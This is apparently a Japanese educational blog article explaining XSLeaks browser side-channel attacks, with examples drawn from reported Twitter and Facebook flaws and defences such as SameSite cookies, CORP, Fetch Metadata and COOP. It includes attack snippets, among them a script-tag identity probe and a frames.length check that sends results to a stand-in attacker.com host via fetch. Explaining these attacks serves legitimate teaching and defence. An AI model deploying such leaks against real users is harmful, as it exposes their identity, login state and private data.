

# 最も興味深いフロントエンドサイドチャネル攻撃：XSLeaks（パート1）

XSLeaks（Cross-site leaksの略）とは、特定のトリックを使用して他のウェブサイトから情報を漏洩させる手法を指します。定義上、このトピックは「クロスサイト攻撃」の章に含めるべきですが、より強調するために最後に配置することにしました。

これは、フロントエンドセキュリティを学ぶ上で最も興味深く、好きなトピックです。大学に「フロントエンドセキュリティ学科」があれば、XSLeaksはおそらく3年生か4年生の選択科目になるでしょう。つまり、このトピックを理解する前に多くの前提知識が必要です。フロントエンドとバックエンド間の通信、ブラウザの操作、さまざまなフロントエンド技術、そして想像力と創造性などが関わってきます。これらが私がこのトピックを魅力的に感じる理由です。

XSLeaksとは何かを理解するには、まずサイドチャネル攻撃とは何かから始める必要があります。

## サイドチャネル攻撃入門

サイドチャネル攻撃については、CPUの脆弱性であるMeltdownやSpectreについて説明する際に言及しました。

サイドチャネル攻撃の最も好きな例の1つは、古典的な「電球問題」です（「今際の国のアリス」に登場しましたが、それ以前から存在していたと記憶しています）。

あなたの部屋に3つのスイッチがあり、それぞれが別の部屋の3つの電球に対応していると想像してください。これら2つの部屋はドアで隔てられているため、もう一方の部屋を見ることはできません。スイッチを自由に操作でき、その後、もう一方の部屋に入って戻ってくる機会は1回しかありません。戻ってきた後、各スイッチがどの電球に対応しているかを答えなければなりません。どうすればよいでしょうか？

電球が2つ、スイッチが2つだけなら簡単です。AとBとしましょう。スイッチAをオンにし、もう一方の部屋に行くと、点灯している電球がスイッチAに対応し、点灯していない電球がスイッチBに対応します。

しかし、電球が3つの場合はどうでしょうか？どうすればよいでしょうか？

この古典的な問題の答えは、まずスイッチAを数分間オンにし、次にオフにし、次にスイッチBをオンにします。これで隣の部屋に行くことができます。点灯している電球はスイッチBに対応します。しかし、他の2つの電球はどうやって区別するのでしょうか？

電球を手で触ってみてください。温かい方は最近点灯していたことを示しているので、スイッチAに対応し、温かくない方はスイッチCに対応します。

この問題では、明るさ以外にも、点灯時に発生する副作用である温度から、電球が以前点灯していたか消灯していたかを推測できます。これをサイドチャネル攻撃と呼びます。

もう1つの例は、探偵映画でよく見られるもので、駐車場の車のボンネットに触れるというものです。温かい場合は、車が最近駐車されたことを意味します。これもサイドチャネル攻撃の一種です。

この原理をフロントエンドウェブ開発に適用すると、XSLeaksと呼ばれます。

以前にも強調したように、ブラウザにとって、あるウェブサイトが別の非オリジンウェブサイトの情報にアクセスするのを防ぐことは重要です。これは同一オリジンポリシーとして知られており、ブラウザは多くの制限を実装しています。例えば、同一オリジンポリシーに違反する他のウェブサイトにアクセスするとエラーメッセージが表示されます。

XSLeaksは、フロントエンドウェブ開発においてサイドチャネル攻撃手法を使用してこの制限を回避し、異なるオリジンの別のウェブサイトから情報を漏洩させようとします。

いつものように、例を見てみましょう。

## XSLeaksの実体験

ブラウザでこのウェブページを開いてみてください：[https://browserleaks.com/social](https://browserleaks.com/social)

このウェブページは、あなたがどのウェブサイトにログインしているかを検出するために使用されます。私の場合、結果は次の画像のようになります。



どのように機能するのでしょうか？

まず、画像を読み込む際、`onerror`属性と`onload`属性を使用して、画像が正常に読み込まれたかどうかを判断できます。以下に示します。

```html

```

「正常に読み込まれた」の定義は、レスポンスステータスコードが200であるだけでなく、コンテンツが実際の画像であることも意味します。代わりにウェブページが読み込まれた場合でも、`onerror`イベントがトリガーされます。

さらに、多くのウェブサイトはリダイレクト機能を提供しています。例えば、ショッピングサイトで特定の注文を表示したい場合、URLは`https://shop.example.com/orders/12345`のようになるかもしれません。ログインせずにこのURLにアクセスすると、`https://shop.example.com/login?redirect=/orders/12345`のようなページにリダイレクトされます。正常にログインした後、元の注文ページにリダイレクトされます。

この方法は、ユーザーが手動で戻る必要がなくなるため、ユーザーエクスペリエンスが向上するため、非常に一般的です。既にログインしている状態で`https://shop.example.com/login?redirect=/orders/12345`というリンクにアクセスするとどうなるでしょうか？ログインページは表示されず、最終的な注文ページに直接リダイレクトされます。

画像の読み込みとログイン後のリダイレクトを組み合わせることで、クロスオリジンのウェブページがログインしているかどうかを検出できます。

Mediumを例にとると、ロゴのURLは`https://medium.com/favicon.ico`であり、Mediumもログイン後に次のようにリダイレクトする機能を備えています。

```
https://medium.com/m/login-redirect
?redirectUrl=https%3A%2F%2Fmedium.com%2Ffavicon.ico
```

指定されたURLでは、ユーザーがログインしていない場合、ログインページにリダイレクトされます。ユーザーがログインしている場合、Mediumのロゴにリダイレクトされます。したがって、HTMLは次のように記述できます。

```html

```

ユーザーがログインしている場合、ウェブサイトのロゴURLにリダイレクトされ、画像であるため`onload`イベントがトリガーされます。一方、ユーザーがログインしていない場合、ログインページにリダイレクトされますが、これは画像ではないため`onerror`イベントがトリガーされます。

したがって、この「ログイン後のリダイレクト」動作と、画像が読み込まれるかどうかを組み合わせて、ユーザーがログインしているかどうかを判断できます。これが古典的なXSLeaksです。

ユーザーがログインしているかどうかを判断することはあまり役に立たないかもしれないので、より実用的な例を見てみましょう。

## ステータスコードを使用したXSLeaks

``でコンテンツを読み込む際、ステータスコードを確認するだけでなく、レスポンスが画像であるかどうかも確認します。したがって、「最後に読み込まれたコンテンツが画像であるか」を判断するためにのみ使用できます。一方、`<script>`は動作が異なります。レスポンスステータスコードが200の場合、コンテンツがJavaScriptでなくても`onerror`イベントはトリガーされません。

`<script>`の場合、ステータスコードが200であれば、URLのコンテンツが正常にダウンロードされたことを意味するため、`onload`イベントがトリガーされます。ただし、内部のJavaScriptコードが無効な場合は、依然としてエラーがスローされます。

したがって、`<script>`タグを使用して、URLのステータスコードが成功か失敗かを間接的に判断できます。次のようになります。

```js
const express = require('express');
const app = express();

app.get('/200', (req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/html'})
  res.write('<h1>hlelo</h1>')
  res.end()
});

app.get('/400', (req, res) => {
  res.writeHead(400)
  res.end()
});

app.get('/', (req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/html' })
  res.write('<script src="/200" onerror=alert("200_error") onload=alert("200_load")></script>')
  res.write('<script src="/400" onerror=alert("400_error") onload=alert("400_load")></script>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

結果は`200_load`または`400_error`のいずれかになりますが、コンソールには依然としてエラーメッセージが表示されます。

> Uncaught SyntaxError: Unexpected token '<' (at 200:1:1)

では、レスポンスのステータスコードを知ることで何ができるのでしょうか？実際の例を見てみましょう。

2019年、terjanq氏はTwitterに脆弱性を報告しました：[Twitter ID exposure via error-based side-channel attack](https://hackerone.com/reports/505424)。これは、この種の攻撃が悪用される方法を説明しています。

彼は、Twitterにユーザー関連情報を返すAPI URLがあることを発見しました：`https://developer.twitter.com/api/users/USER_ID/client-applications.json`

ログインしていない場合、またはログインしているが`USER_ID`が一致しない場合、403ステータスコードがエラーメッセージとともに返されます。

> {"error":{"message":"You are not logged in as a user that has access to this developer.twitter.com resource.","sent":"2019-03-06T01:20:56+00:00","transactionId":"00d08f800009d7be"}}.

ログインしていて`USER_ID`が正しい場合、ユーザー関連データが返されます。この設計は、ユーザーが他のユーザーのデータにアクセスできないため、アクセス制御にはまったく問題ありません。ただし、ステータスコードの違いにより、XSLeaksの機会が生じます。

悪用は次のように機能します。誰かのTwitter `USER_ID`（例えば12345）を知っているとします。自分のブログに次のコードを記述できます。

```html
<script
  src=https://developer.twitter.com/api/users/12345/client-applications.json
  onload="alert('こんにちは、ボブ！あなたが見ていることは知っています！')"
>
</script>
```

これはプライバシー侵害の脆弱性です。以前訪れたことのないウェブサイトにアクセスすると、この方法を使用して「あなたが特定の人物であるかどうか」を正確に特定でき、これは非常に恐ろしいことです。

では、この脆弱性はどのように修正できるのでしょうか？

## XSLeaksに対する防御メカニズムの1つ

最も簡単な防御メカニズムは、以前にも言及したSame-site Cookieです。Cookieを`SameSite=Lax`に設定することで、``または`<script>`のどちらを使用しても、Cookieは一緒に送信されなくなり、前述の問題を回避できます。

最近では、ブラウザはこのメカニズムをデフォルトで有効にしているため、開発者が積極的に参加しなくても保護されます。ただし、Cookieを`SameSite=None`に設定した場合は除きます。実際、これを行っているウェブサイトがあります。最初にアクセスしてユーザーがログインしているかどうかを検出したウェブサイトは、`SameSite=None`が有効になっているウェブサイトのみを検出できます。

Same-site Cookie以外にも、このような攻撃から防御する方法はいくつかあります。

1つ目は、CORSについて説明する際に前述した`Cross-Origin-Resource-Policy`ヘッダーです。CORSのリソース版であるこのヘッダーは、他のウェブサイトがこれらのリソースを読み込むのを防ぐことができます。

`Cross-Origin-Resource-Policy: same-origin`を追加すると、前の例では、200でも400でも、スクリプトは`onerror`イベントを実行します。なぜなら、両方ともCORPによってブロックされるからです。コンソールには次のエラーが表示されます。

> GET http://localhost:5555/200 net::ERR_BLOCKED_BY_RESPONSE.NotSameOrigin 200 (OK)
> GET http://localhost:5555/400 net::ERR_BLOCKED_BY_RESPONSE.NotSameOrigin 400 (Bad Request)

2番目の方法は、Fetch Metadataと呼ばれる新しいメカニズムです。ウェブページがリクエストを送信すると、ブラウザは次の情報を含むヘッダーを自動的に追加します。

1. `Sec-Fetch-Site`：リクエスト元のサイトとターゲットサイトの関係。
2. `Sec-Fetch-Mode`：リクエストのモード。
3. `Sec-Fetch-Dest`：リクエストの宛先。

例えば、ページのクロスオリジンロケーションから`<script>`タグを使用して`http://localhost:5555/200`を読み込むと、ヘッダーは次のようになります。

```
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
```

サーバーはこれらのヘッダーを使用して予防措置を講じることができます。例えば、サーバーがAPI呼び出しのみを想定し、リソースを読み込むための`<script>`やその他のタグを想定していない場合、そのような予期しない動作をブロックできます。

```js
app.use((res, res, next) => {
  if (res.headers['Sec-Fetch-Dest'] !== 'empty') {
    res.end('Error')
    return
  }
  next()
})
```

`Sec-Fetch-Site`の可能な値は次のとおりです。

1. same-origin
2. same-site
3. cross-site
4. none（ブラウザがブックマークからウェブサイトを開く場合など、上記に分類できない場合）

`Sec-Fetch-Mode`の可能な値は次のとおりです。

1. same-origin
2. no-cors
3. cors
4. navigate

`Sec-Fetch-Dest`には非常に多くの可能な値があるため、ここではリストしません。

3番目の方法は、成功したステータスコードと失敗したステータスコードの両方を200に変更し、ステータスコードに基づいて違いを検出できないようにすることです。

これは、バックエンドのディスカッションフォーラムで繰り返し発生する問題を思い出させます。それは、レスポンスのステータスコードをどのように設定するかということです。例えば、一部の人々はステータスコードをリソース自体のステータスとして扱います。例えば、`/api/books/3`が存在しない場合、`404 Not found`を返します。

しかし、一部の人々はステータスコードを別の目的で使用します。`/api/books/3`に特定の本がなくても、API自体は存在するため、200を返し、レスポンスボディに「見つかりません」というメッセージを含めます。`/api/not_exist`のような存在しないAPIにアクセスした場合にのみ404を返します。

この観点から見ると、2番目の設計アプローチはXSLeaksの問題を解決できます。しかし、個人的には、攻撃からの防御のために特にステータスコードを変更するのは良い考えではないと思います。多くの依存関係が関与しており、フロントエンドにも変更が必要になる可能性があります。より良いアプローチは、最も簡単でシンプルな解決策であるため、まずSame-site Cookieを使用して防御することです。

## その他の潜在的なリーク

HTMLには、リークオラクルとして機能する可能性のあるものがいくつかあります。その1つの例はフレームの数です。

以前、ブラウザはクロスオリジンウィンドウへのアクセスを制限し、アクセスできる情報を制限すると述べました。例えば、`location = '...'`を使用してリダイレクトできますが、`location.href`やその他の値にはアクセスできません。

しかし、これらの制限下でも、フレーム数など、依然として取得できる情報がいくつかあります。以下にコード例を示します。

```js
var win = window.open('http://localhost:5555')
// ウィンドウの読み込みを待つ
setTimeout(() => {
  alert(win.frames.length)
}, 1000)
```

開かれたページにiframeがある場合、長さは1になります。何もない場合は0になります。ウェブサイトが異なる動作に基づいて異なる数のiframeを持つ場合、この手法を使用して検出できます。

例えば、2018年、セキュリティ企業Impervaは「[Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/facebook-privacy-bug/)」というタイトルのブログ投稿を公開し、この手法を利用しました。

Facebookには、友人、投稿、写真などを検索できる検索機能があります。この検索機能は簡単に共有できるように設計されているため、ユーザーはURLから直接アクセスできます。例えば、URL `https://www.facebook.com/search/str/chen/users-named/me/friends/intersect`は、「chen」という名前の友人の検索結果を表示します。

そして著者は、検索結果に何かがある場合、ページにiframeがあり、著者はこれがFacebookの追跡目的である可能性があると推測しているという違いを発見しました。結果がない場合は、このiframeはありません。

言い換えれば、`frames.length`をチェックすることで、検索結果があるかどうかを判断できます。

攻撃プロセスは次のとおりです。まず、次の内容のHTMLを準備します。

```html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

次に、このウェブページをターゲットに送信します。ターゲットがウェブページを開くと、攻撃者のサーバーが検索結果を受信します。

この種の攻撃に対する防御はより困難です。なぜなら、ここではSame-site Cookie Laxが機能しないからです。コードは`window.open`を使用しており、strictに設定しない限り、Cookieはリクエストと一緒に送信されます。

前述のFetch Metadataも効果がありません。なぜなら、これは実際には通常の要求だからです。

既存のメカニズムを使用してこれを防御したい場合は、COOP（Cross-Origin-Opener-Policy）ヘッダーを追加できます。これにより、開かれたウィンドウは元のウィンドウとの接続を失い、`win.frames`にアクセスできなくなります。

もう1つのオプションは、検索結果ページを変更することです。検索結果があるかどうかに関係なく、常にiframeを持つか、まったく持たないようにして、iframeの数を通じて情報が漏洩しないようにします。

## 結論

この記事では、サイドチャネル攻撃とは何かを学び、XSLeaksの基本原理を理解しました。また、これが実際に悪用可能な脆弱性であることを示す実際の例もいくつか見ました。

もちろん、XSLeaksは通常、他の脆弱性と比較してより多くの前提条件と条件を必要とし、得られる結果も限られています。しかし、個人的には、これは依然として非常に興味深い脆弱性であると信じています。

Google自体は、バグバウンティプログラムでXSLeaksについて議論する専用の[ページ](https://bughunters.google.com/learn/invalid-reports/web-platform/xsleaks/5022006283862016/xsleaks-and-xs-search)を持っています。なぜなら、彼らは既にほとんどの問題を認識しており、この分野を専門に研究しているエンジニアがいるからです。したがって、バウンティハンターがこれに時間を費やすことは推奨されません。

参考文献：

1. [Fetch Metadataでウェブ攻撃からリソースを保護する](https://web.dev/i18n/ja/fetch-metadata/)
2. [XS-Leaks wiki](https://xsleaks.dev/)
